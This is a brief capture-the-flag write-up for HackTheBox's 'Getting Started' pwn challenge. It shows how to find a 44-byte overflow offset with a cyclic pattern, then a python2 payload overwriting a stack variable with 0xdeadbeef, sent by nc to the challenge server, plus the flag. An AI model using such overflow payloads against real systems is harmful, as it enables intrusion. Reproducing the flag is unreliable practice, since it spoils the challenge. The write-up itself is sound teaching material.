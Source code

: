 ```yaml
---
name: Getting Started (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Getting Started (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Getting Started

## Description

> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## Solution

Generate a cyclic pattern and send it to the program as input and check which bytes make it into the RIP, then unhex and find the offset.

```bash
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

unhex 6161616c6161616b

cyclic -l laaa
44
```

Create a payload and send it to the server.

```bash
python2 -c 'print "A" * 44 + "\xef\xbe\xad\xde"' > payload

nc 209.97.129.76 30115 < payload
```

Receive flag 🙂

```bash
      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffd6d3fc690 | 0x4141414141414141 <- Start of buffer
0x00007ffd6d3fc698 | 0x4141414141414141
0x00007ffd6d3fc6a0 | 0x4141414141414141
0x00007ffd6d3fc6a8 | 0x4141414141414141
0x00007ffd6d3fc6b0 | 0x4141414141414141 <- Dummy value for alignment
0x00007ffd6d3fc6b8 | 0xdeadbeef41414141 <- Target to change
0x00007ffd6d3fc6c0 | 0x0000557386505800 <- Saved rbp
0x00007ffd6d3fc6c8 | 0x00007f02fd685c87 <- Saved return address
0x00007ffd6d3fc6d0 | 0x0000000000000001
0x00007ffd6d3fc6d8 | 0x00007ffd6d3fc7a8

HTB{b0f_s33m5_3z_r1ght?}
```
